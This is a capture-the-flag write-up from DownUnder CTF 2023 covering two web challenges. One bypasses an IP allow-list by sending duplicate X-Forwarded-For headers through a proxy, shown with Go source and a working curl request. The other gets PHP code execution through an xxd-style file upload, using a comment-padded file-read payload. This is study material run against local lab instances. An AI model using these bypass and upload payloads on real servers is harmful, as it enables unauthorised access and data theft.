





# DownUnder CTF 2023

i was part of the team "The Great Emu War II" in this competition. shoutouts to my fellow team mates, it was fun :)

official github containing the source code of the challenges:

https://github.com/DownUnderCTF/Challenges_2023_Public

for all the following challenges it was extremely helpful to build the docker images with the source code provided by the organizers. that way one could easily play around and test locally before moving onto the real challenge servers. 

## actually-proxed

my attention was first drawn to the server where the custom proxy apparently proxies to, located in the file `cmd/proxy/secret_server/main.go`:

```go
package main

import (
	"flag"
	"fmt"
	"log"
	"net/http"
	"os"
	"strings"
)

var (
	port = flag.Int("port", 8081, "port to listen on")
)

func main() {

	flag.Parse()

	http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
		xff := r.Header.Values("X-Forwarded-For")

		ip := strings.Split(r.RemoteAddr, ":")[0]

		if xff != nil {
			ips := strings.Split(xff[len(xff)-1], ", ")
			ip = ips[len(ips)-1]
			ip = strings.TrimSpace(ip)
		}

		// 1337 hax0rz 0nly!
		if ip != "31.33.33.7" {
			message := fmt.Sprintf("untrusted IP: %s", ip)
			http.Error(w, message, http.StatusForbidden)
			return
		} else {
			w.Write([]byte(os.Getenv("FLAG")))
		}
	})

	log.Printf("Listening on port %d", *port)
	log.Fatal(http.ListenAndServe(fmt.Sprintf(":%d", *port), nil))
}
```

it seems that we can get the flag, when the string var `ip` has the value `"31.33.33.7"`, which will never happen under regular circumstances.
`ip` is either finally set in line `ip := strings.Split(r.RemoteAddr, ":")[0]` as the left part of a string containing ip address and port in the format of `IP-ADRESS:PORT` of the remote host (us), left of the `":"`, or set if the http request header value of `"X-Forwarded-For"` is not null. if that is the case, it is always the last part of an array which results in splitting of a string at the `", "` character. consider the following example: the value of `xff` is `"127.0.0.1, 31.33.33.7, 13.37.13.37"`; this would result in the array `["127.0.0.1","31.33.33.7","13.37.13.37"]` for variable `ips`, and to the value `"13.37.13.37"` for `ip`, since `len(ips)-1 = 2` which results in picking the third value from the array!

ok, now i moved onto the source code of the proxy server, located in the file `cmd/proxy/main.go`, where the following loop looked interesting:

```go
for i, v := range headers {
	if strings.ToLower(v[0]) == "x-forwarded-for" {
		headers[i][1] = fmt.Sprintf("%s, %s", v[1], clientIP)
		break
	}
}
```

this loop is stopped as soon as the first http header with the name `"x-forwarded-for"` is found. the value of `clientIP` (the value of our remote ip) is then added, resulting in the value of the header and our ip, separated by a `,`, for example: `127.0.0.1, <OUR-IP>`. that means we can never get the flag, right?

the `break` statement means, that we hypothetically can add more request headers with the name `"x-forwarded-for"`, since the rest of the headers are just added to the request sent to the proxy. the capitalization of any character in the name `"x-forwarded-for"` does not matter, since all letters are converted to lower case anyway.
because of the following loop, the last one of the headers with the same name will always be the last added to the string array:
```go
for _, v := range headers {
		value := headerMap[v[0]]

		if value != nil {
			value = append(value, v[1])
		} else {
			value = []string{v[1]}
		}

		headerMap[v[0]] = value
}
```

you can log it for yourself if you add the following after this loop to the source code:
```go
log.Printf("headerMap has value: %s", headerMap)
```

let's try it: 

add `ENV FLAG=THIS_IS_THE_FLAG` for our tests to the Dockerfile (since this environment variable is not set otherwise in the source and only exists on the challenge docker instance), then run `docker build -t proxy .` where the Dockerfile resides. now run this wonderfull app using e.g. `docker run --rm --name proxy -p 127.0.0.1:8080:8080 -it proxy`

now, we can e.g. use curl to send these requests with two request headers with the same name:

`curl -vvv --header 'x-forwarded-for:127.0.0.1' --header 'x-forwarded-for:31.33.33.7' localhost:8080`

BOOM, you got it:

```
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/7.68.0
> Accept: */*
> x-forwarded-for:127.0.0.1
> x-forwarded-for:31.33.33.7
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 16
< Content-Type: text/plain; charset=utf-8
< Date: Mon, 04 Sep 2023 16:59:22 GMT
<
* Connection #0 to host localhost left intact
THIS_IS_THE_FLAG
```

the logs of the headerMap (if you added it to the source):
```
headerMap has value: map[Accept:[*/*] Host:[localhost:8080] User-Agent:[curl/7.68.0] x-forwarded-for:[127.0.0.1, 172.17.0.1 31.33.33.7]]
```

since `127.0.0.1, 172.17.0.1` is the first element and `31.33.33.7` the last element of the string array which arrives at the secret server, we matched the wanted ip.

## xxd-server

looking at the source code, the file `.htacess` shows us, that php code (inside files with a `.php` extension) should be executed by the apache web server.
to be able to test any solution, we have to add a file called `flag` with some content to the dir where the Dockerfile resides, e.g. with: 

`echo flag > flag`

now build and run the image: 

`docker build -t xxd . && docker run --name xxd --rm -p 127.0.0.1:8080:80 xxd`

you are able to visit the app's frontend now by browsing to http://localhost:8080 where you are greeted by a file upload utility:



when you select and upload a php file with the following content: 
```php
<?php echo test; ?>
```
and click on "Click here to view"

the code is unfortunately not properly executed, and this error message is displayed: 



time to take the same file, but with another file ending, e.g. `.txt`:



if we look at the `xxd()` function in `index.php` and also compare the result output, we see, that the "xxd" utility splits a provided string into 16 characters each line and does its hex conversion on the lefthand side of the output.

after messing around for some time I had the idea to try to use multiline comments (opening with `/*` and closing with `*\`) in php to span the reading of the flag file into multiple lines.

the shortest php snippet I came up with to read a file and print its content was (probably there are better variants?):

```php
<?php $a=file('/flag');print_r($a); ?>
```

ok, this php snippet is longer than 16 characters, so we have to insert the start and end of the comment at the right spot, taking into account that the comment has to begin at the end of each line:

```php
<?php $a=file(/**/'/flag');/*****/print_r(/******/$a); ?>
```

to test our theory, we first put this content into a `.txt` file and upload that to see if we put the comment begin and end at the right spot, since testing with a `.php` file is cumbersome since it tries to execute it:



as you can see in the image above, in each line the comment starts at the end of the line and closes at the beginning of a line. that way, the hex representations are enclosed in the comment on each line and does not hinder the php code to properly execute.

upload the same with a `.php` extension and get the flag :)



## grades_grades_grades

**still to document**